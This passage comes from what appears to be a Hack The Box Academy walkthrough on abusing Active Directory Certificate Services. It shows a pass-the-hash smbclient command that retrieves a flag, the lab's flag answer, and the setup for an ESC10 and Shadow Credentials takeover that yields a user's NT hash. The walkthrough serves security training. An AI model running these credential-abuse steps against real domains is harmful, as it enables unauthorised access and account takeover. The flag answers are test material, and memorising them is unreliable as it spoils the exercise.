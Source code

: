 ```shell
smbclient //lab.local/user3 -U lab.local/user3 --pw-nt-hash 01b60104db80993eb9ead5d8f9127eec -N -c "get flag.txt"
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ smbclient //lab.local/user3 -U lab.local/user3 --pw-nt-hash 01b60104db80993eb9ead5d8f9127eec -N -c "get flag.txt"

getting file \flag.txt of size 21 as flag.txt (2.9 KiloBytes/sec) (average 2.9 KiloBytes/sec)
```

At last, when reading the contents of the file `flag.txt`, students will attain the flag `HTB{RESTR1CTED_SHARE}`:

Code: cmd

```cmd
cat flag.txt
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ cat flag.txt

HTB{RESTR1CTED_SHARE}
```

Answer: `HTB{RESTR1CTED_SHARE}`

# ESC10

## Question 1

### "Abuse ESC10 and Resource-Based Constrained Delegation to compromise the DC and submit the content of the flag C:\\Windows\\System32\\rbcd.txt"

After spawning the target machine, and before abusing `ESC10` and using the `Shadow Credentials` technique, students need to add vHost entries for the domain name `lab.local`, the CA's name `lab-LAB-DC-CA`, and its machine's DNS name `LAB-DC.lab.local` (which is also the DC's DNS name):

Code: shell

```shell
sudo sh -c 'echo "STMIP lab.local lab-LAB-DC-CA LAB-DC.lab.local" >> /etc/hosts'
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-aoyamvb8qf]─[~]
└──╼ [★]$ sudo sh -c 'echo "10.129.228.236 lab.local lab-LAB-DC-CA LAB-DC.lab.local" >> /etc/hosts'
```

Subsequently, to takeover the `user2` user with `Shadow Credentials` (which is possible due to the user `blwasp` having `FullControl` over `user2`, allowing `certipy` to request the TGT for `user2` and `Un-PAC-the-hash` within it), students need to use the `shadow` command of `certipy` along with the `auto` positional argument, specifying `user2` for the `-account` option; students will attain the NT hash `ee22ddf0f8a66db4217050e6a948f9d6` for the `user2` user:
